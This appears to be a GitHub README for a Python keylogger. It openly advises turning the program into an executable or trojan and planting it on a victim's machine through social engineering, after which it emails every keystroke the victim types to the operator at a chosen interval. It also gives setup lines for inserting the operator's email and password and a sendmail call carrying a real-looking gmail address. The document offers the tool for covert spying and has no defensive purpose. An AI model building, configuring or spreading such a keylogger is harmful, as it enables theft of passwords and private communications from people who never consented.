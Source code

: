 # key_logger
key_logger program which programmed by using object oriented concepts of python

After making it as an executable file or trojans  and by social engineering techniques if you able to plant it on the target machine this program mail you at an interval of time (which is given by the user at invoking time) all key_broard stroke made by the victim on his pc in a readable format


#make sure you add your own email adress which is in part of program 
# handler.sendmail(self.email,"keech.swiggy@gmail.com",message) #change it  to belowby taking reference of below mentioned code
# here handler.sendmail(user mail,victim mail",message : here message is key_stroke made by user)
#at invoking time
# creating_malware.Keylogger(120,"user mail",user password)  >>>> 120 this is time in seconds decides the frequency of getting email  
